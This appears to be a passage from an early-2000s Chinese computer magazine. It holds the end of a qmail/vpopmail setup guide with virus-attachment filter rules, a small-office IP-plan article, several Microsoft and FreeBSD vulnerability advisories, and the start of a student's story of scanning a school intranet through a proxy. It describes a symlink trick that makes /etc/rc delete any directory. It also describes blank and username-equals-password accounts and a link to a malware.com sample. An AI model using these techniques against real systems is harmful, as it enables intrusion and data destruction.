#cd daemontools-0.70
#make
#make setup check
#cd ..
#tar zxvf ucspi-tcp-0.88.tar.gz
#cd ucspi-tcp-0.88
#make
#make setup check
#cd ..
#tar zxvf qmail-1.03.tar.gz
#cp qmail-smtpd.c qmail-1.03/
#patch -d qmail-1.03 < qmailq.patch
#cd qmail-1.03
#make setup check
#./config（如果确定 DNS 上有这个域名记录，可以直接用 ./config-fast hostname.domainname）
```

```bash
#cp qmfilt.py /var/qmail/bin
#chown qmailq.qmail /var/qmail/bin/qmfilt.py
```

这样，Qmail 的相关文件已经放到对应的位置，现在要配置一些配置文件了。

建立文件 `/var/qmail/rc`，文件内容是：

```bash
#!/bin/sh
# Using stdout for logging
# Using control/defaultdelivery from qmail-local to deliver messages by default
exec env - PATH="/var/qmail/bin:$PATH" \
qmail-start "`cat /var/qmail/control/defaultdelivery`"
```

建立文件 `/var/qmail/control/defaultdelivery`，设置邮件储存格式，文件内容是：

```text
./Maildir/
```

建立文件 `/var/qmail/control/concurrencyincoming`，在里面设置并发连接数，一般就写 1000，允许 1000 个同时进入的连接。

建立过滤规则控制文件 `/var/qmail/control/qmfilt`，有个例子：

```text
# This is the qmfilt control file
# If any email comes in that matches this
# filter, the mail will be redirected
# to the filter directory
#
# A filter regular expression must be on a single
# line and in between a pair of '%%'
# This will match any executable Visual Basic Scripts
VisualBasic %%^Content-Type: application/octet-stream;\s+name="(.*?\.vbs)"%%
Executable %%^Content-Type: application/octet-stream;\s+name="(.*?\.exe)"%%
Explorer.doc %%^Content-Type: application/msword;\s+name="(EXPLORER.DOC)"%%
SHS %%^Content-Type: application/octet-stream;\s+name="(.*?\.shs)"%%
SHB %%^Content-Type: application/octet-stream;\s+name="(.*?\.shb)"%%
# This is the Outlook date overflow bug
DATE %%^Date:.{160,}%%
```

#### 一般的格式是：

```text
# 过滤规则名 %%内容%%
#### 比如要过滤 nimda 病毒，可以这么设置：
#nimda %%name="(readme.exe)"%%
```

建立 daemontools 使用的和 Qmail 有关的 log 文件：

```bash
#mkdir /var/log/qmail
#mkdir -p /var/log/qmail/smtpd
#chown qmaill /var/log/qmail /var/log/qmail/smtpd
#touch /var/log/qmfilt
#chown qmaild /var/log/qmfilt
#mkdir -p /var/qmail/supervise/qmail-send/log
#mkdir -p /var/qmail/supervise/qmail-smtpd/log
#chmod +t /var/qmail/supervise/qmail-send
#chmod +t /var/qmail/supervise/qmail-smtpd
```

建立 `/var/qmail/supervise/qmail-send/run` 文件，内容为：

```bash
#!/bin/sh
exec /var/qmail/rc
```

建立 `/var/qmail/supervise/qmail-send/log/run` 文件，内容为：

```bash
#!/bin/sh
exec /usr/local/bin/setuidgid qmaill /usr/local/bin/multilog t /var/log/qmail
```

建立 `/var/qmail/supervise/qmail-smtpd/run` 文件，内容为：

```bash
#!/bin/bash
QMAILDUID=`id -u qmaild`
NOFILESGID=`id -g qmaild`
MAXSMTPD=`cat /var/qmail/control/concurrencyincoming`
/usr/local/bin/tcpserver -H -R -v -l 0 -t 1 -c "$MAXSMTPD" -x /etc/tcp.smtp.cdb -u "$QMAILDUID" -g "$NOFILESGID" 0 smtp /var/qmail/bin/qmail-smtpd ./bin/checkpassword ./bin/true ./bin/md5checkpw ./bin/true 2>&1
```

建立 `/var/qmail/supervise/qmail-smtpd/log/run` 文件，内容为：

```bash
#!/bin/sh
exec /usr/local/bin/setuidgid qmaill /usr/local/bin/multilog t /var/log/qmail/smtpd
```

把以上四个 run 文件 `chmod 755`。为了能方便地控制 Qmail，最好建立一个控制脚本，存储在 `/etc/rc.d/init.d/qmail`，内容是：代码如下图：



接着让各个启动级别能按不同的需要使用 Qmail 控制脚本：

```bash
#chkconfig --level 016 qmail off
#chkconfig --level 2345 qmail on
```

然后就要建立 Qmail 的访问控制文件 `/etc/tcp.smtp` 了，文件内容是：

```text
127.0.0.1:allow,RELAYCLIENT="",QMAILQUEUE="bin/qmfilt.py"
:allow,QMAILQUEUE="bin/qmfilt.py"
```

执行 `/etc/rc.d/init.d/qmail cdb` 生成 Qmail 可以识别的 cdb 格式。

建立 sendmail 的壳，让其他应用系统能使用邮件功能：

```bash
#ln -s /var/qmail/bin/sendmail /usr/lib
#ln -s /var/qmail/bin/sendmail /usr/sbin
```

最后建立系统的一些 alias（比如我要用户 abc 用来启动 Qmail）：

```bash
#echo abc > /var/qmail/alias/.qmail-root
#echo abc > /var/qmail/alias/.qmail-postmaster
ln -s .qmail-postmaster /var/qmail/alias/.qmail-mailer-daemon
chmod 644 /var/qmail/alias/.qmail-root
chmod 644 /var/qmail/alias/.qmail-postmaster
```

最后就能用 `/etc/rc.d/init.d/qmail start` 来启动 Qmail 了。

Qmail 一般都是配合 vpopmail 使用的，现在我们看看怎么安装 vpopmail。首先需要建立 vpopmail 使用的用户：

```bash
#groupadd vchkpw
#useradd -g vchkpw -d /vpopmail vpopmail
```

然后建立访问控制文件 `vpopmail/etc/tcp.smtp` 文件，内容是：

```text
127.0.0.1:allow,RELAYCLIENT=""
```

接着用非 root 用户解压缩 vpopmail 的包，并执行 configure 动作：

```bash
#su vpopmail
$tar zxvf vpopmail-4.9.tar.gz
$cd vpopmail-4.9
$./configure --enable-default-domain=mail.mytest.com
$make
$exit
#make install-strip
#chmod 6755 ~vpopmail/bin/vchkpw
```

（这个很重要，是为了能让 vchkpw 能读取系统用户信息）

执行完这些 vpopmail 就安装到你系统上面了，现在看看如何使用它：

- 1. 建立虚拟域

```bash
#cd ~vpopmail/bin
#./vadddomain mail.mytest.com
```

然后根据系统的提示设置该虚拟域的管理员密码。一般增加虚拟域的动作会改动几个文件：

```text
/var/qmail/control/locals
/var/qmail/control/rcpthosts
/var/qmail/control/virtualdomains
/var/qmail/users/assign
/var/qmail/users/cdb
```

如果发现系统不能接收某个域的文件，一般就要检查这几个文件了。

- 2. 增加用户

```bash
#~vpopmail/bin/vadduser user@mail.mytest.com
```

- 3. 删除用户

```bash
#~vpopmail/bin/vdeluser user@mail.mytest.com
```

- 4. 修改用户密码

```bash
#~vpopmail/bin/vpasswd user@mail.mytest.com
```

可以建立一个启动文件来启动 POP 服务，内容是：

```bash
#!/bin/bash
QMAILDUID=`id -u qmaild`
NOFILESGID=`id -g qmaild`
MAXPOP3D=`cat /var/qmail/control/concurrencyincoming`

/usr/local/bin/tcpserver -H -R -l 0 -t 1 \
-c "$MAXPOP3D" -u "$QMAILDUID" -g "$NOFILESGID" \
0 pop-3 /var/qmail/bin/qmail-popup vmail/bin/vchkpw \
/var/qmail/bin/qmail-pop3d Maildir &
```

为了能让 vchkpw 来验证 smtp 的密码，需要改动 `/var/qmail/supervise/qmail-smtpd/run`，把 `/bin/checkpassword` 改成 `vpopmail/bin/vchkpw`。

启动 Qmail 的 SMTP 服务和 vpopmail 的 POP3 服务，一个完整的邮件系统就起来了。

由于 Qmail 本着简单就是安全的原则，不支持很多功能，所以 VRFY 和 EXPN 等功能都是没有的，所以在系统安全方面，Qmail 是十分出色的。

### 邮件系统安全方面其他建议

- 1. 取消不必要的服务，包括 Telnet，如果非要 Telnet，就使用 SSHD。
- 2. 本机安装一个软件防火墙如 IPtables，限制端口上访问。
- 3. 在外界的路由器、硬件防火墙上面也做相关的限制。

## 名词解释

**Socket5 代理**：Socks5 是一种透明的 Proxy 协议，而且很好地解决了认证、保密以及 Proxy 接力等问题，Netscape 通过使用 Socks5 的 Client 软件可以使那些不具备代理服务的 Internet 软件通过代理访问 Internet。更重要的是，Socks5 支持 UDP 协议的 Proxy，从而成为很多 Firewall 后面的人使用 Oicq 不可缺少的东西。

**DHCP**：动态主机配置协议 DHCP（Dynamic Host Configuration Protocol）允许你根据需要将 IP 地址、子网掩码和缺省网关地址分配给各个工作站。

**DECnet**：DEC（Digital Equipment Corporation）公司所采用的一种网络协议。

## DIY小型办公网

文／吴培森

最近公司接了一个小型网络工程，给一个培训公司做办公网方案。其中涉及到了 IP 的划分，这是笔者以前在学校的宿舍里“建网”时没遇到过的“技术难题”。费了不少劲，总算是对付过去了，自己也学点东西。我们还是围绕 IP 划分这个阶段来说吧。

#### 网络的需求

首先是培训用的机房要能够随时地、有控制地上 Internet，而且机房要连入整个局域网，局域网中还包括教师办公室、行政楼的电脑，他们都要能够随时接入 Internet。但是，由于保密需要，不能让机房的计算机访问到教师办公室。而且由于预算的紧张，不能购买路由器。而交换机也只能购买一台网管型的，并且他们买来的这个交换机居然不支持 VLAN（虚拟子网）。

#### 实际方案

要把两个用物理方式连接起来的网络分开，除了使用 VLAN 技术外，还可以通过网段划分把它们隔离开。如果两个网络之间需要进行通信，再用 NAT（网络地址转换）进行地址转换吧。

资金紧张，当然不能购买路由器了。服务器想都别想！有买服务器的钱我还不如买个路由器呢，反正他们又不要求有什么 VOD（视频点播）、HTTP、FTP 这些服务。行政楼和办公室一共有计算机 30 台，机房是 40 台机器。我是这样划分的。机房的 IP 段为 192.168.0.2～192.168.0.41，而子网掩码我选了一个最接近的 255.255.255.192，因为这个网络可以容纳最多 62 台主机，也满足了机房扩充的需求了。行政楼的 IP 为 192.168.1.1～192.168.1.30，子网掩码为 255.255.255.192，这个子网也能够满足以后扩充的需求的。没有路由器怎么办呢？我可是掏出了压箱底儿的东西了。买一台 586 电脑，内存 32M，装上两块网卡，显示器、硬盘、键盘、鼠标这些都不用，花了大约 500 元。找了一个叫做“BBIagent 宽带路由器”的软件（下载地址：http://www.bbiagent.com/gb/download.htm）。它是根据作为路由器的电脑所配置的网卡和联网方式而即时产生的。如果从网卡表中找不到你所用的网络卡，请查看软件能支持的网络卡是否与你的网卡兼容。

在这个软件的网站上进行一些参数设置后，下载其映像文件。将文件保存为 BBIagent.img，然后选择以下一种方法，将映像文件（BBIagent.img）写入一片已格式化的 1.44 MB 软盘。在制作这个盘的时候要选择内部网络使用的 IP 地址，我这里将这个“路由器”设成了 192.168.1.254，接着解压后放到一张质量比较好的软盘上，然后用这张软盘引导这台计算机，等软盘灯不再亮了就说明已经引导成功了。然后通过另外一台机器用 HTTP 方式（即通过 IE 浏览器访问并设置）对这个“路由器”进行控制，并且设置允许哪些 IP 进入，哪些 IP 出去这些设置。这样再把行政楼和教师机器的 DNS 和网关设成 192.168.1.254 就 OK 了。

现在说说机房那一块吧。不是有台教师机吗？我把教师机装了两块网卡，做一个路由不就可以了吗？控制他们可以上网和不可以上网，不就可以通过开关路由服务来完成吗？这台教师机装一个 Windows 2000 Server 系统，然后一块网卡属于机房的 IP 网络，IP 地址为 192.168.0.1，子网掩码是 255.255.255.192，而另外一块网卡的 IP 地址就用 192.168.1.253，子网掩码是 255.255.255.192。然后建立一个路由就可以了。而实际上这里就用到了所谓的“二层代理”。

#### 经验总结

由于经费紧张，这个网络只能采用软件路由的方案。当然，如果可以的话，我还是建议使用硬件来完成这些功能。这样的话，可以节省很多的工作，提高网络的性能。



### 在 Internet Explorer 5.5 和 6.0 中自动执行的 HTML 文件（MS，缺陷）

涉及程序：Internet Explorer 5.5 & 6.0

介绍：在 Internet Explorer 5.5 和 6.0 中自动执行的 HTML 文件

漏洞内容：

下面的文件是一个包含脚本文件和已编译帮助文件（*.chm）的 HTML 文件：

http://www.malware.com/html.zip

在真正的帮助文件里已经插入了脚本，帮助文件本身会指回到 HTML 文件并让它执行。如果 HTML 文件的文件名里包含 chm 这个字，Internet Explorer 5.5 和 6.0 就会让它执行。

因为它是一个正常的 HTML 文件，Internet Explorer 会打开它，插在里面的脚本因此被解析。脚本是指向同一个文件并使用了 showHelp 函数调用。

所以不要以为是 HTML 文件就不用小心了！这个程序是完全无害的，它所做的只是查出 C:\WINDOWS\SYSTEM 里 Mshta.exe 的位置。

程序为 Win98 而设计，已经在 Win98 上通过测试。

### 微软安全公告 MS02-025（MS，补丁）

涉及程序：Exchange 2000

介绍：非法邮件属性导致 Exchange 2000 耗尽 CPU 资源

漏洞内容：

为了支持不同系统之间邮件的转换，Exchange messages 使用的是 SMTP mail messages 的属性（在 RFC's 821 和 822 中被详细说明）。但是当收到一个含有非法属性的信息时，将会导致存储服务在处理这个信息时耗尽 100% 的 CPU 资源，导致拒绝服务。

攻击者为了成功利用此漏洞，往往是通过直接连接到 Exchange 服务器，再传递一个未经处理的、用非法属性手工构建的邮件信息给服务器。

当这个信息被收到，并且被存储服务（Store service）处理时，CPU 资源就会 100% 地被耗尽。产生的影响一直会持续到 Exchange Store service 处理完这个信息。这时哪怕是重启服务或机器都是无效的，只有等待 Store service 将非法信息完全处理完毕。

用户如果注意以下三点，可能能够部分地控制这个漏洞：

- 利用此漏洞进行攻击产生的影响是暂时的，一旦服务器处理完这个非法的信息，正常的操作又会继续进行。但是一旦对非法的信息处理开始执行，要想中断处理是不可能的，只有等待系统处理完毕，即使重启也是无效的。
- 攻击者利用此漏洞无法从服务器获得任何数据或获得对服务器的控制权限。
- 要想成功利用此漏洞，要求攻击者能够传递一个自己手工构建的信息给目标系统，最好是能够通过一个伪装的基于服务器的连接来传递信息。使用一个邮件系统客户端是不可能的，像 Outlook 或 Outlook Express 等。

解决方案：

http://www.microsoft.com/Downloads/Release.asp?ReleaseID=38951

### MSDE/SQL Server 2000 桌面引擎默认配置空口令漏洞（MS，补丁）

涉及程序：SQL Server 2000 Desktop Engine，MSDE 1.0

介绍：MSDE/SQL Server 2000 桌面引擎默认配置空口令漏洞

漏洞内容：

Microsoft SQL Server Desktop Engine（MSDE）是一款 Microsoft 用来提供数据库管理服务的产品。

Microsoft SQL Server 2000 Desktop Engine 是一款 Microsoft 分发的数据库 SQL SERVER2000 共享数据库引擎。

Microsoft SQL Server Desktop Engine（MSDE）和 SQL Server 2000 Desktop Engine 默认配置存在漏洞，可导致远程攻击者以管理员权限访问数据库。

Microsoft SQL Server Desktop Engine（MSDE）和 SQL Server 2000 Desktop Engine 默认配置其管理员密码为空，远程攻击者可以利用此漏洞以管理员权限访问数据库。

目前已经存在利用 Microsoft SQL Server 和一些衍生产品 MSDE 和 SQL Server 2000 Desktop Engine 的默认空密码进行攻击的蠕虫。

解决方案：

- Microsoft 提供如下地址参考对 SQL 进行安全设置。
- Q322336 HOW TO: Verify and Change the System Administrator Password by Using MSD
- http://support.microsoft.com/default.aspx?scid=kb;EN-US;q322336
- Q321081 Visio Installation of MSDE Creates an 'sa' Account with a Blank Password
- http://support.microsoft.com/default.aspx?scid=kb;EN-US;q321081

### FreeBSD 安全公告 FreeBSD-SA-02:27.rc（BSD，缺陷）

涉及程序：FreeBSD

描述：FreeBSD 安全公告 FreeBSD-SA-02:27.rc

漏洞内容：

rc 是一个系统启动的脚本（/etc/rc）。当 FreeBSD 使用多用户启动时，脚本会自动运行并执行多项任务。其中的一项任务就是删除掉被 X Windows 锁定了的文件，因为如果这些文件没有被删除，用户就不能再启动 X Windows Server。

当删除 X Windows 锁定的文件的时候，rc 脚本使用了 rm(1) 命令：

```bash
rm -f /tmp/.X*-lock /tmp/.X11-unix/*
```

由于 /tmp 是全部用户都能进行写入操作的目录，用户可以建立一个 /tmp/.X11-unix 的符号连接指向其他的任何一个目录，等下一次 rc 脚本运行的时候（比如下次重启动的时候），rc 脚本就会删除掉该指向目录的所有内容。

暂时解决方法：

找到 /etc/rc 脚本，并在里面删除或注释掉以下的命令：

```bash
rm -f /tmp/.X*-lock /tmp/.X11-unix/*
用 root 身份执行以下命令便可以删除掉：
/bin/sh -c 'echo -e "/.X11-unix/s/^/#/\nw\nq\n" | /bin/ed -s /etc/rc'
```

升级方法：

- 1）把你的系统升级到 4.5-STABLE，或者在修正此漏洞日期后发行的 RELENG_4_5（4.5-RELEASE-p6）或 RELENG_4_4（4.4-RELEASE-p13）安全分支。
- 2）为你当前系统打上补丁：

```bash
a. 下载以下相关的补丁：
# fetch ftp://ftp.FreeBSD.org/pub/FreeBSD/CERT/patches/SA-02:27/rc.patch
# fetch ftp://ftp.FreeBSD.org/pub/FreeBSD/CERT/patches/SA-02:27/rc.patch.asc
b. 用 root 身份执行以下命令：
# cd /usr/src
# patch < /path/to/patch
c. 安装新的 rc 脚本：
# cd /usr/src/etc
# install -c -o root -g wheel -m 644 rc /etc/rc
```

## Windows 2000 中事件查看器的缓冲溢出漏洞（MS，缺陷）

涉及程序：Microsoft Windows 2000 事件查看器（Event Viewer）

介绍：Windows 2000 中事件查看器的缓冲溢出漏洞

漏洞内容：

Microsoft Windows 2000 里的事件查看器存在缓冲溢出漏洞，当事件查看器打开一个被写入事件日志的记录时有可能受到攻击。已授权和未授权的用户都能对系统和应用程序日志进行读写，但只有已授权用户和进程可以对安全日志进行读写。

缓冲溢出的漏洞存在于用来处理和显示单个事件记录属性的程序代码中。详情可以参看微软安全公告：http://www.microsoft.com/technet/security/bulletin/MS01-013.asp。用来运行代码的数据可以通过远程插入到事件记录中，但攻击者必须要令到有人去查看带有恶意数据代码的事件记录，攻击才可以完成。

影响：

攻击者可以向事件记录中插入恶意的数据代码，当有用户查看记录时缓冲溢出就会发生。这样就会允许攻击者利用正在查看的用户的权限来执行任意的代码。

解决方案：

请到以上提及的微软公告中查找补丁并安装。下载地址：http://download.microsoft.com/download/win2000platform/Patch/q285156/NT5/EN-US/Q285156_W2K_SP3_x86_en.EXE

### 内网安全不容忽视

文／Torune

也许很多菜鸟们都想看一篇完整的入侵过程，作为现身说法的教材；通过对入侵过程的描述，让大家学到什么地方存在着缺陷，什么地方存在着漏洞；通过对入侵过程的分析，让我们知道在哪里应该加强服务器的安全配置，这里就有一篇作者通过对自己内部网络进行分析及测试性攻击后的分析文章，借此提出了一个我们不能忽略的问题：网络内部的入侵。

声明：笔者是经过该校领导及网络管理员同意后，才对其内部网络进行安全检测的，因此存在任何法律方面问题，本人概不负责。

本文主要是以教育为目的，请勿利用文中提及的网络技术做任何违法行为，否则后果自负。

#### 写在前面的话

针对互联网的入侵和防御，我想各位读者一定了解了不少。今天在这里，我想问各位网管同志，自己“背后”的安全问题你想过没有？“后院着火”你又怎么能事先排除呢？

对于本文提及的这个内部网络我有很多的话可以说，当然大部分都是一种学生与学校之间的那种“恩怨情仇”。40 个左右的 CISCO 路由，数台 NT/2000/RedHat 服务器，2000 个左右的网络接入端口，这就是我们学校的内部网，整个局域网俨然一个庞然大物，然而它的安全问题着实让我吃惊。

对于学校的网络，或许是我当初太幼稚了吧，这个局域网我整整琢磨了 3 年。我曾经使用过 UNICODE 漏洞控制 Web 主机，然而当时的我技术太次，无法深入该服务器的内部网络，最后以被网管发现而告终。这 3 年以来，学校的网管也换了几个，而我的想法依然不变，控制这个庞然大物是我这 3 年来的最大心愿。如今，我的理想实现了。然而在整个过程中也逐渐让我看到了内部网络更深刻的一面，内网的安全问题不容忽视，同样国内网管的安全意识也需要及时提高。

我现在依然是一个 Scripts Kid 和 Tools User，也许高手们会笑话我，然而我这样的菜鸟都能对这么一个庞大的网络构成威胁，更别说那些真正的高手了。

本文通过一个真实的例子，提醒众多网管们不但要认真搞好外部网络的安全问题，同时也要对内部网络加强防护。

一个对内部网络有好奇心的人员，他想得到内部网络路径等，最直接最有效的办法一定是查看他的网上邻居。

图 1 就是我学校网上邻居中部分工作组的截图。



图 1

需要说明的是，这个网络当然并不是完整的，网管在事先已经对 Web、Mail 等重要的服务器做了一定的限制，处于那个网段的所有服务器不可能出现在这个网上邻居里的，这在一定程度上节制了部分初级内部入侵者的步伐，对整个网络起到了一定保护作用。在这里，我通过平时获取的一些资料及常识得知，IT CENTER（学校计算机中心）等这几个工作组是全网络中最核心的地方，同样也是数据等东西的集散地。

接着我要做的就是锁定我的目标，挑选出最重要的机子。首先要做的是得到它们的 IP 地址。这里我看上的是 TerminalServer 和 Filesserver（图 2）。



图 2

通过一次十分简单的 Ping Terminalserver 和 Ping Filesserver 指令，我得知 Terminalserver 的 IP 为 10.35.2.50，Filesserver 的 IP 为 10.35.2.30。

接着，我开始通过扫描来收集服务器存在哪些漏洞。市面上各种各样的漏洞扫描工具有很多，而大家比较常用的是 Shadow SecurityScanner（SSS）、流光和 XSCAN。我这里选择的是 SSS，毕竟在没有搞定内部“肉鸡”之前，我还是得保护我们的 IP。因为我所处的这个局域网内能够得到很多可以当 PROXY 代理的机子，这也是我使用 SSS 的一个原因。

启动 SSS，在选择扫描策略时，我去掉了所有关于 D.o.S 的东西（它们并不会给我带来任何好处。我以前曾经对自己的机器做过安全测试，Windows 2000 系统在 D.o.S 检测之下，很容易造成 FTP、IIS 发生拒绝服务，从而无法继续访问）。

添上了那个代理服务器（10.35.1.21），端口 8080。

值得一提的是这台代理服务器的问题，它是一台以 Windows .NET 为系统的服务器，由于 Beta 版的普及面还不广，因此到现在还没有任何关于该系统存在漏洞的消息，然而该系统存在的 NETBIOS 空连接服务，将它的安全问题暴露出来了，该服务器存在一个用户名和密码相同的管理员级别用户。我想这也许是流光中没有开放对国内主机限制的一个理由吧，毕竟国内网管对于 NETBIOS 和用户密码问题太不在乎了。

首先扫描的服务器是 Terminalserver，不到几分钟，扫描结果就出来了，可见内部网络中的高速数据传输也可以算危害主机及数据安全的一个问题。

该服务器存在的问题不少，其中最主要的还是 NETBIOS 空连接问题。该主机存在一个用户 User，这个用户的密码与用户名相同，可惜他是个 Users 组的成员，User 组成员的主机权限并不大，不过能够成功地得到一个用户名和密码，这就意味着我们往成功的道路上又踏上了坚实的一步。该服务器同时还开放了 80 端口。我尝试着通过 IE 浏览器打开 10.35.2.50（图 3、图 4）。

